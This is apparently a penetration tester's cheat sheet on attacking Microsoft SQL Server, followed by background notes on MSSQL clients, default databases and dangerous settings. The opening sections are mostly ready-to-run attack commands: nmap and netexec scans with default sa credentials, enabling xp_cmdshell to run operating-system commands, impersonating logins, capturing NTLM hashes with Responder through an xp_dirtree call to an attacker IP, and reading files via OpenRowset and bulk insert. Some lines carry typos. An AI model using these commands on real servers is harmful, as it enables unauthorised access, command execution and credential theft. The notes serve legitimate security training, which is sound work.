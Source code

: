 ##### Scanning
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip

msfconsole
use auxiliary/scanner/mssql/mssql_ping

mssqlclient.py -p 1433 Administrator:password@$ip -windows-auth
mssqlclient.py -p 1433 domain.local/adot8:password@$ip 

netexec mssql 10.10.10.101 -d domain -u adot8 -p password -x "whoami"
```

##### Enumeration
```sql
select @@version;
SELECT name FROM sys.databases;
SELECT name FROM master..sysdatabases;
USE adot8;
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT name FROM <databaseName>..sysobjects WHERE xtype = 'U';    <-- find users table
select * from <databaseName>.dbo.users;
select * from <databaseName>.dbo.users where name like 'Admin%';
select * from <databaseName>..users;
```

##### Configure xp_cmdshell
```sql
sp_configure 'show advanced options', '1';
RECONFIGURE;
sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
xp_cmdshell 'whoami';

exexute sp_configure 'show advanced options', '1';
RECONFIGURE;
exexute sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
exexute xp_cmdshell 'whoami;
```

##### Impersonate User
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

enum_impersonate
exec_as_user <grantor>
exec_as_login <grantor>
```

##### Capture Hash
```bash
sudo responder -I tun0
xp_dirtree \\10.10.14.3\adot8\
```

##### Read and copy file
```sql
select x from OpenRowset(BULK 'C:\Users\Administrator\root.txt',SINGLE_CLOB) R(x)

create table #errortable (ignore int)
bulk insert #errortable from '\\localhost\c$\windows\win.ini' with ( fieldterminator=',', rowterminator='\n', errorfile='c:\thatjusthappend.txt' )
```
[Microsoft SQL](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) is Microsoft's SQL-based relational database management system. Unlike MySQL, which we discussed in the last section, MSSQL is closed source and was initially written to run on Windows operating systems. It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET.
### MSSQL Clients
[SQL Server Management Studio](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver15) (`SSMS`) comes as a feature that can be installed with the MSSQL install package or can be downloaded & installed separately. It is commonly installed on the server for initial configuration and long-term management of databases by admins. Keep in mind that since SSMS is a client-side application, it can be installed and used on any system an admin or developer is planning to manage the database from.

**This means we could come across a vulnerable system with SSMS with saved credentials that allow us to connect to the database. The image below shows SSMS in action.**
![[Pasted image 20250103150154.png]]
### MSSQL Databases
|Default System Database|Description|
|---|---|
|`master`|Tracks all system information for an SQL server instance|
|`model`|Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database|
|`msdb`|The SQL Server Agent uses this database to schedule jobs & alerts|
|`tempdb`|Stores temporary objects|
|`resource`|Read-only database containing system objects included with SQL server|
### Default Configuration
When an admin initially installs and configures MSSQL to be network accessible, the SQL service will likely run as `NT SERVICE\MSSQLSERVER`. Connecting from the client-side is possible through Windows Authentication, and by default, encryption is not enforced when attempting to connect.
![[Pasted image 20250103150210.png]]Authentication being set to `Windows Authentication` means that the underlying Windows OS will process the login request and use either the local SAM database or the domain controller (hosting Active Directory) before allowing connectivity to the database management system. Using Active Directory can be ideal for auditing activity and controlling access in a Windows environment, but if an account is compromised, it could lead to privilege escalation and lateral movement across a Windows domain environment.
### Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of [named pipes](https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15)
- Weak & default `sa` credentials. Admins may forget to disable this account